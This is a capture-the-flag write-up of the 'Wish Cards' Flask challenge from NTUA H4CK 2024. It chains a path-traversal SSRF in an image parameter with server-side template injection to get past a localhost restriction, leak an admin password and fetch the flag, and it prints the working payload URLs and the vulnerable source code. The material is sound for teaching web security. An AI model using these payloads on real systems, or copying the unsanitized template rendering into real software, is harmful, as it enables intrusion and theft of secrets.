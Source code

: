 ```yaml
---
layout: post
title: "Wish Cards"
description: from NTUA H4CK 2024
# img: assets/img/12.jpg
date: 2024-12-20 10:14:00-0000
category: web
related_posts: false
---
```


***
You can download all challenge files from [here](https://github.com/Thread-in-the-Needle/NTUAH4CK-3.0/tree/main/web/wish-cards/src) and run the application locally.

***
## Basic Functionality
- The challenge involves a `Flask` web app.
- The app allows users to choose a picture as a template and generates a Christmas card with a random wish sourced from `data.py`.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards1.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards2.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- Additionally, there's an option to create a <u>custom card</u> with a personalized message, but this feature is **restricted to localhost requests only**.
<div class="row mt-3">
    <div class="col-10 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards3.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- The following code enforces this restriction:

```python
def local(f):
    @wraps(f)
    def check(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return render_template('error.html', error= 'Sorry, this page is not available for the public 🥲')
        return f(*args, **kwargs)
    return check
```

## How to get the flag
- Upon reviewing the code, I discovered that the flag can be obtained by sending a request to `/admin-card`. However, two conditions must be met:
  - We need the admin password
  - We must bypass the same localhost restriction as the custom card functionality.

```python
try:    secret_wish = open('flag.txt','r').read().strip()
except: secret_wish='NH4CK{secrettttt}'

@app.route('/admin-card')
@local
def admin():
    passw = request.args.get('pass', '')
    if passw != ADMINPASS:
        return render_template('error.html', error= 'Urm, wrong password ❌')
    secret_card = make_card('colors.png', wish= f'Merry Xmas, don\'t share my secret: {secret_wish}')
    return send_file(io.BytesIO(secret_card), mimetype= 'image/png', as_attachment= True, download_name= 'flag.png')
```

## Getting the admin password
- I noticed that the admin pass is loaded in a global variable in `util.py`.

```python
try:    ADMINPASS = open('adminpass.txt').read().strip()
except: ADMINPASS = 'adminpass'
```

- I also noticed that when a custom card is generated, the custom wish is is directly rendered into the template **without any sanitization**.

{% raw %}
```python
def generate_card_html(b64_image, wish):
    card_html = f'''
    <html>
    <head>
        <style>
            .card {{
                width: 800px;
                height: 600px;
                background-image: url(data:image/png;base64,{b64_image});
                background-size: cover;
                display: flex;
                align-items: center;
                justify-content: center;
                color: white;
                font-size: 20px;
                text-align: center;
                padding: 10px;
                box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2);
                border-radius: 10px;
            }}
        </style>
    </head>
    <body>
        <div class="card">
            {wish}
        </div>
    </body>
    </html>
    '''
    return render_template_string(card_html, **globals())
```
{% endraw %}

- This suggested an [SSTI](https://portswigger.net/web-security/server-side-template-injection) **vulnerability** . By exploiting it, I could potentially extract the admin password using a payload like {% raw %}`{{ADMINPASS}}`{% endraw %}. The only problem was the localhost restriction.
- I assumed that there has to be an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability as well, that would allow us to **force the server to make requests on behalf of us**.

## SSRF vulnerability
- The `make_card` function looked very promising because:
  - The server **fetches** images by making **HTTP requests to itself**.
  - it concatenates a **user-controlled input** into the url string.

```python
def make_card(img: str, wish= ''):
    if not img or not img.endswith('.png'):
        return None
    if any([c in wish for c in '<>%_&"\\()']): # these may crash something
        return None
    
    if not wish:
        wish = get_wish()
    
    img_b64 = img_from_url(f'http://127.0.0.1:1337/static/images/{img}')
    if not img_b64:
        return None
    card_html = generate_card_html(img_b64,wish)
    as_pic = imgkit.from_string(card_html, False, options= {'format': 'png', 'quiet': '', 'crop-h': '1000', 'crop-w': '800'})
    return as_pic
```

- Firstly I checked if I could control the server's request URL with **path traversal**. I tried:
```
http://localhost:1337/cards?image=../../static/images/green.png
```
- The response was a **normal card** with the requested background **without any errors**. So, I confirmed that indeed I can control it.

- Next, I tried creating a **custom card** to see if I could **bypass** the localhost restriction:
```
http://localhost:1337/cards?image=../../custom-cards?wish=MyCustomWish%26image=green.png
```
- Notice that the `image` parameter of the SSRF request **should be second**, because the server checks if it ends with `.png`.
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards4.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- And yes, my custom wish was **rendered successfully**. A random wish was also included, as the initial request was for a regular card, while using the rendered custom card as background.

- To **confirm the SSTI** vulnerability, I used the following request that rendered number `49`.
```
http://localhost:1337/cards?image=../../custom-cards?wish={% raw %}{{7*7}}{% endraw %}%26image=green.png
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards5.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- And finally used {% raw %}`{{ADMINPASS}}`{% endraw %} to get the admin pass.
```
http://localhost:1337/cards?image=../../custom-cards?wish={% raw %}{{ADMINPASS}}{% endraw %}%26image=green.png
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards7.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

## Final payload to get the flag
- With the admin password in hand and a bypass for the localhost restriction, I could issue a request to the `/admin-card` endpoint and retrieve the flag:
```
http://localhost:1337/cards?image=../../admin-card?pass=adminpass%26fake=.png
```
- Again, the `image` parameter must end with `.png`, so I appended an arbitrary parameter.
- During the competition, the live server’s admin password was `GOD_INTERN!` so the final payload was:
```
/cards?image=../../admin-card?pass=GOD_INTERN!%26fake=.png
```
- And the real flag was:
```
NH4CK{y37.4n07h3r.w15h.c4rd}
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards8.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>